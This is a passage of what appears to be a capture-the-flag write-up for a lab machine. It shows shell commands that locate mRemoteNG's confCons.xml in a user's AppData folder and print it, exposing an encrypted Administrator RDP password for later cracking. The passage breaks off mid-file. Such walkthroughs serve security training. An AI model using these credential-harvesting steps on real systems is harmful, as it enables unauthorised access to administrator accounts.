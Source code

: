The credential for the mRemoteNG is stored in "confCons.xml".<br>
The config file is stored in "C:\Users\L4mpje\AppData\Roaming\mRemoteNG".<br>
Since it's hidden, we need to add "\a" for dir command to find AppData directory.
{% highlight shell %}
l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG>dir                    
 Volume in drive C has no label.                                                
 Volume Serial Number is 0CB3-C487                                              

 Directory of C:\Users\L4mpje\AppData\Roaming\mRemoteNG                         

22-02-2019  15:03    <DIR>          .                                           
22-02-2019  15:03    <DIR>          ..                                          
22-02-2019  15:03             6.316 confCons.xml                                
22-02-2019  15:02             6.194 confCons.xml.20190222-1402277353.backup     
22-02-2019  15:02             6.206 confCons.xml.20190222-1402339071.backup     
22-02-2019  15:02             6.218 confCons.xml.20190222-1402379227.backup     
22-02-2019  15:02             6.231 confCons.xml.20190222-1403070644.backup     
22-02-2019  15:03             6.319 confCons.xml.20190222-1403100488.backup     
22-02-2019  15:03             6.318 confCons.xml.20190222-1403220026.backup     
22-02-2019  15:03             6.315 confCons.xml.20190222-1403261268.backup     
22-02-2019  15:03             6.316 confCons.xml.20190222-1403272831.backup     
22-02-2019  15:03             6.315 confCons.xml.20190222-1403433299.backup     
22-02-2019  15:03             6.316 confCons.xml.20190222-1403486580.backup     
22-02-2019  15:03                51 extApps.xml                                 
22-02-2019  15:03             5.217 mRemoteNG.log                               
22-02-2019  15:03             2.245 pnlLayout.xml                               
22-02-2019  15:01    <DIR>          Themes                                      
              14 File(s)         76.577 bytes                                   
               3 Dir(s)  11.305.988.096 bytes free       
{% endhighlight %}
{% highlight shell %}
l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG>type confCons.xml      
<?xml version="1.0" encoding="utf-8"?>                                          
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="f
alse" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFile
Encryption="false" Protected="ZSvKI7j224Gf/twXpaP5G2QFZMLr1iO1f5JKdtIKL6eUg+eWkL
5tKO886au0ofFPW0oop8R8ddXKAx4KK7sAk6AA" ConfVersion="2.6">                      
    <Node Name="DC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" 
Id="500e7d58-662a-44d4-aff0-3a4f547a3fee" Username="Administrator" Domain="" Pas
sword="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7em
f7lWWA10dQKiw==" Hostname="127.0.0.1" Protocol="RDP" PuttySession="Default Setti
ngs" Port="3389" ConnectToConsole="false" UseCredSsp="true" RenderingEngine="IE"
 ICAEncryptionStrength="EncrBasic" RDPAuthenticationLevel="NoAuth" RDPMinutesToI
dleTimeout="0" RDPAlertIdleTimeout="false" LoadBalanceInfo="" Colors="Colors16Bi
t" Resolution="FitToWindow" AutomaticResize="true" DisplayWallpaper="false" Disp
layThemes="false" EnableFontSmoothing="false" EnableDesktopComposition="false" C
acheBitmaps="false" RedirectDiskDrives="false" RedirectPorts="false" RedirectPri
nters="false" RedirectSmartCards="false" RedirectSound="DoNotPlay" SoundQuality=
"Dynamic" RedirectKeys="false" Connected="false" PreExtApp="" PostExtApp="" MacA
ddress="" UserField="" ExtApp="" VNCCompression="CompNone" VNCEncoding="EncHexti
le" VNCAuthMode="AuthVNC" VNCProxyType="ProxyNone" VNCProxyIP="" VNCProxyPort="0
" VNCProxyUsername="" VNCProxyPassword="" VNCColors="ColNormal" VNCSmartSizeMode
="SmartSAspect" VNCViewOnly="false" RDGatewayUsageMethod="Never" RDGatewayHostna
me="" RDGatewayUseConnectionCredentials="Yes" RDGatewayUsername="" RDGatewayPass
word="" RDGatewayDomain="" InheritCacheBitmaps="false" InheritColors="false" Inh
eritDescription="false" InheritDisplayThemes="false" InheritDisplayWallpaper="fa
lse" InheritEnableFontSmoothing="false" InheritEnableDesktopComposition="false" 
InheritDomain="false" InheritIcon="false" InheritPanel="false" InheritPassword="
false" InheritPort="false" InheritProtocol="false" InheritPuttySession="false" I
nheritRedirectDiskDrives="false" InheritRedirectKeys="false" InheritRedirectPort
s="false" InheritRedirectPrinters="false" InheritRedirectSmartCards="false" Inhe
ritRedirectSound="false" InheritSoundQuality="false" InheritResolution="false" I
nheritAutomaticResize="false" InheritUseConsoleSession="false" InheritUseCredSsp
="false" InheritRenderingEngine="false" InheritUsername="false" InheritICAEncryp